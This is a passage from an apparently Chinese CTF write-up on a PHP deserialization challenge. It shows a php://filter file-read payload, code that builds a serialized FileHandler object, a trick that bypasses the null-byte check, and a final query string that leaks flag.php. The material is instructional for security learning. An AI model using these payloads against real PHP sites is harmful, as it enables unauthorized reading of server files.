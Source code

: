 `filename`是我们可以控制的，接着使用`file_get_contents`函数读取文件，此处直接读取`flag.php`即可，有时候还会考察`php`伪协议，如果还遇到考察`php`伪协议的情况，直接把后面的`flag.php`改为

```
php://filter/read=convert.base64-encode/resource=flag.php
```

即可，此题没有考察到伪协议,获取到文件后使用`output`函数输出

整个利用思路就很明显了，还有一个需要注意的地方是，$op,$filename,\$content 三个变量权限都是 protected，而`protected`权限的变量在序列化的时会有%00\*%00 字符，%00 字符的`ASCII`码为 0，就无法通过上面的`is_valid`函数校验

现在先来生成序列化字符串吧，将`$filename`改为我们要读的文件：

```
<?php
class FileHandler
{

    protected $op=2;
    protected $filename="flag.php";
    protected $content="";
}

$ff=new FileHandler();
echo serialize($ff);
```

生成如下：

```
O:11:"FileHandler":3:{s:5:"*op";i:2;s:11:"*filename";s:8:"flag.php";s:10:"*content";s:0:"";}
```

需要注意的是，`protected`类型的成员变量序列化会生成`%00，会被`false`掉，`php7`对于类的属性不敏感，可以改用`public`类型就可以了

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

此时可以进行传参了：

```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

右键查看网页源代码即得`flag`：

![][12]

参考文章：

- [小白也能学会的反序列化漏洞][13]
- [2020 网鼎杯青龙组部分 Web 复现][14]
- [网鼎杯 2020 青龙组 AreUSerialz][15]
- [记一次对 CTF 青龙组历年真题的自我理解][16]

[1]: https://code.visualstudio.com/Download
[2]: https://www.xp.cn/
[3]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_164636.png
[4]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_174322.png
[5]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5409&page=1
[6]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171426.png
[7]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171520.png
[8]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1
[9]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172032.png
[10]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172109.png
[11]: https://www.ctfhub.com/#/
[12]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201225_222921.png
[13]: https://www.bilibili.com/video/av53361627?p=1&t=476
[14]: http://keac.club/2020/05/11/2020%E7%BD%91%E9%BC%8E%E6%9D%AFweb/
[15]: https://www.cnblogs.com/Cl0ud/p/12874458.html
[16]: https://mp.weixin.qq.com/s/ZKwR4fZU-j1QXcQBTFF7PQ